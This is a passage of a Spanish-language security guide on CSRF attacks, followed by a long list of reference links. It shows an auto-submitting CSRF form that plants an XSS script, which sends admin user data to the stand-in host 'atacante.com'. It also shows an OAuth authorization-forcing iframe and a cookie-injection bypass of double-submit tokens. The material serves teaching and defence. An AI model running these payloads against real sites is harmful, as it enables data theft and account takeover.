 **Payload CSRF que inyecta XSS:**

```html
<html>
  <body onload="document.csrf_xss_form.submit()">
    <form name="csrf_xss_form" action="https://victima.com/update_profile" method="post">
      <input type="hidden" name="username" value="Usuario Normal">
      <input type="hidden" name="bio" value="<script>fetch('/api/admin/users').then(r=>r.json()).then(d=>fetch('https://atacante.com/steal',{method:'POST',body:JSON.stringify(d)}));</script>">
    </form>
  </body>
</html>
```

**Flujo del ataque:**

1. Víctima visita página del atacante
2. CSRF actualiza perfil con payload XSS
3. Cuando víctima ve su perfil, ejecuta el XSS
4. Script roba datos administrativos

### CSRF in OAuth Flows[^19]

OAuth mal implementado es vulnerable a CSRF:

```html
<!-- Forzar autorización no deseada -->
<iframe src="https://oauth-provider.com/authorize?client_id=APP_ID&redirect_uri=https://victima.com/callback&scope=admin&state=PREDICTABLE"></iframe>
```

### Double Submit Cookie Vulnerabilities[^15]

Cuando la validación solo verifica que el token de cookie coincida con el parámetro:

```javascript
// Si el atacante puede inyectar cookies
document.cookie = "csrf_token=controlled_value; domain=victima.com";

// Entonces puede usar ese valor en el ataque
fetch('/api/sensitive', {
  method: 'POST',
  credentials: 'include',
  headers: {
    'X-CSRF-Token': 'controlled_value'
  },
  body: 'malicious=data'
});
```

## Vulnerabilidades Reales Documentadas

### CVE-2024-56924: Internet Banking System[^3]


[^1]: https://www.invicti.com/web-application-vulnerabilities/ampache-cross-site-request-forgery-csrf-vulnerability-cve-2024-51489
[^2]: https://learn.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?view=aspnetcore-9.0
[^3]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-56924
[^4]: https://www.invicti.com/web-application-vulnerabilities/ampache-cross-site-request-forgery-csrf-vulnerability-cve-2024-47828
[^5]: https://infosecwriteups.com/csrf-in-2025-solved-but-still-bypassable-942ca382ab77
[^6]: https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/CSRF
[^7]: https://brightsec.com/blog/csrf-example/
[^8]: https://www.cobalt.io/blog/csrf-bypasses
[^9]: https://www.intigriti.com/researchers/blog/hacking-tools/csrf-a-complete-guide-to-exploiting-advanced-csrf-vulnerabilities
[^10]: https://www.linkedin.com/pulse/bypassing-unpredictable-csrf-tokens-muvhango-magatshavha-jl7lf
[^11]: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions
[^12]: https://hazanasec.github.io/2023-07-30-Samesite-bypass-method-override.md/
[^13]: https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/
[^14]: https://osintteam.blog/web-security-academy-csrf-samesite-lax-bypass-via-cookie-refresh-775f4f6efdc2
[^15]: https://owasp.org/www-chapter-london/assets/slides/David_Johansson-Double_Defeat_of_Double-Submit_Cookie.pdf
[^16]: https://sallam.gitbook.io/sec-88/write-ups/exploiting-json-based-csrf-the-hidden-threat-in-profile-management
[^17]: https://bugbase.ai/blog/how-to-bypass-csrf-protection
[^18]: https://stackoverflow.com/questions/11008469/are-json-web-services-vulnerable-to-csrf-attacks
[^19]: https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/
[^20]: https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
[^21]: https://outpost24.com/blog/csrf-attacks-simplified-guide/
[^22]: https://www.certuscyber.com/insights/bypass-samesite-cookie/
[^23]: https://zuplo.com/learning-center/preventing-cross-site-request-forgery-in-apis
[^24]: https://www.stackhawk.com/blog/react-csrf-protection-guide-examples-and-how-to-enable-it/
[^25]: https://moldstud.com/articles/p-comparing-csrf-protection-methods-lumen-vs-other-frameworks
[^26]: https://www.incibe.es/index.php/en/incibe-cert/early-warning/vulnerabilities/cve-2024-52402
[^27]: https://portswigger.net/web-security/csrf
[^28]: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override
[^29]: http://scielo.sld.cu/scielo.php?script=sci_abstract\&pid=S2306-24952024000700133\&lng=en\&nrm=iso
[^30]: https://learn.snyk.io/lesson/csrf-attack/
[^31]: https://stackoverflow.com/questions/79368322/how-to-bypass-samesite-cookie-restriction-in-microsoft-edge-during-local-develop
[^32]: https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-ise-csrf-y4ZUz5Rj
[^33]: https://www.imperva.com/learn/application-security/csrf-cross-site-request-forgery/
[^34]: https://www.youtube.com/watch?v=ucHEU1Z9DhU
[^35]: https://nvd.nist.gov/vuln/detail/CVE-2024-51484
[^36]: https://en.wikipedia.org/wiki/Cross-site_request_forgery
[^37]: https://vulnapi.cerberauth.com/docs/vulnerabilities/security-misconfiguration/http-method-allow-override
[^38]: https://www.linkedin.com/pulse/how-double-submit-cookie-prevent-csrf-viral-parmar-qzyqc
[^39]: https://www.youtube.com/watch?v=Jv-LXLID3VA
[^40]: https://www.webasha.com/blog/how-does-csrf-lead-to-account-takeover-real-world-example-and-exploit-chain-explained
[^41]: https://brightsec.com/blog/csrf-mitigation/
[^42]: https://github.com/obiba/opal/security/advisories/GHSA-27vw-29rq-c358
[^43]: https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie
[^44]: https://www.invicti.com/blog/web-security/protecting-website-using-anti-csrf-token/
[^45]: https://stackoverflow.com/questions/73031478/is-the-double-submit-cookie-pattern-really-safe
[^46]: https://www.wiz.io/academy/cross-site-request-forgery-csrf
[^47]: https://www.acceis.fr/csrf-get-samesite-concrete-attack/
[^48]: https://www.bitsight.com/blog/web-application-security-devops-anti-csrf-and-cookie-samesite-options
[^49]: https://heycoach.in/blog/cross-site-request-forgery-csrf-prevention-techniques/
[^50]: https://www.sciencedirect.com/science/article/pii/S2667295221000258
[^51]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-22424
[^52]: https://infosecwriteups.com/how-i-exploited-a-hidden-csrf-vulnerability-and-how-you-can-prevent-it-d089ad23887d
[^53]: https://www.openwall.com/lists/oss-security/2024/11/16/2